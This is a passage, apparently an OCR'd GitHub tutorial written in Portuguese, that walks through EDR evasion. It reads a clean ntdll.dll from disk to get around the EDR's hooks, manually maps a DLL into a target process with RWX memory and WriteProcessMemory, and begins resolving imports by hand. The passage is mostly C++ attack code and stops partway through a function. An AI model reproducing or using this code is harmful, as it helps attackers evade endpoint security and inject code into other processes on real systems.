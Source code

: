 Na segunda etapa, temos o foco de carregar versão original da `ntdll.dll` sem modificações do EDR. Podemos fazer isso a partir do disco, onde ela não esta modificada.

```c++
HANDLE hFile = CreateFile(L"C:\\Windows\\System32\\ntdll.dll", 
                         GENERIC_READ, FILE_SHARE_READ, 
                         NULL, OPEN_EXISTING, 0, NULL);

HANDLE hMapping = CreateFileMapping(hFile, NULL, PAGE_READONLY, 0, 0, NULL);
LPVOID cleanDll = MapViewOfFile(hMapping, FILE_MAP_READ, 0, 0, 0);
```

Na terceira etapa, o mapeamento manual de DLL implementa, em espaço de usuário, uma versão customizada do **PE loader do Windows**. Em vez de usar o carregador do sistema (por exemplo LoadLibrary), a técnica lê o ficheiro PE (DLL) do disco, interpreta os seus cabeçalhos (DOS e NT) e recria manualmente a imagem na memória do processo alvo. 
```c++
void* ManualMap(HANDLE process, BYTE* dllData) {
    IMAGE_DOS_HEADER* dosHeader = (IMAGE_DOS_HEADER*)dllData;
    IMAGE_NT_HEADERS* ntHeader = (IMAGE_NT_HEADERS*)
        (dllData + dosHeader->e_lfanew);
    
    void* baseAddr = VirtualAllocEx(process, NULL,
        ntHeader->OptionalHeader.SizeOfImage,
        MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    
    WriteProcessMemory(process, baseAddr, dllData,
        ntHeader->OptionalHeader.SizeOfHeaders, NULL);
    
    IMAGE_SECTION_HEADER* section = IMAGE_FIRST_SECTION(ntHeader);
    for (int i = 0; i < ntHeader->FileHeader.NumberOfSections; i++) {
        WriteProcessMemory(process,
            (char*)baseAddr + section[i].VirtualAddress,
            dllData + section[i].PointerToRawData,
            section[i].SizeOfRawData, NULL);
    }
    
    return baseAddr;
}
```
Na quarta etapa, consiste em identificar a tabela de importações presente na imagem PE reconstituída em memória e ligar cada entrada de importação ao endereço efetivo da função exportada correspondente nos módulos dependentes, de modo que as chamadas externas da biblioteca apontem para rotinas válidas no contexto do processo alvo.

```c++
void ResolveImports(void* baseAddr, BYTE* dllData) {
    IMAGE_NT_HEADERS* ntHeader = GetNTHeaders(dllData);
    IMAGE_IMPORT_DESCRIPTOR* importDesc = 
        GetImportDescriptor(baseAddr, ntHeader);
    
    while (importDesc->Name) {
        char* moduleName = (char*)baseAddr + importDesc->Name;
        HMODULE module = GetModuleHandle(moduleName);
        
        IMAGE_THUNK_DATA* thunk = 
            (IMAGE_THUNK_DATA*)((char*)baseAddr + importDesc->FirstThunk);
        
        while (thunk->u1.AddressOfData) {
            IMAGE_IMPORT_BY_NAME* importByName = 
                (IMAGE_IMPORT_BY_NAME*)((char*)baseAddr + 
                thunk->u1.AddressOfData);
            
            thunk->u1.Function = (ULONGLONG)
                GetProcAddressManual(module, importByName->Name);
            
```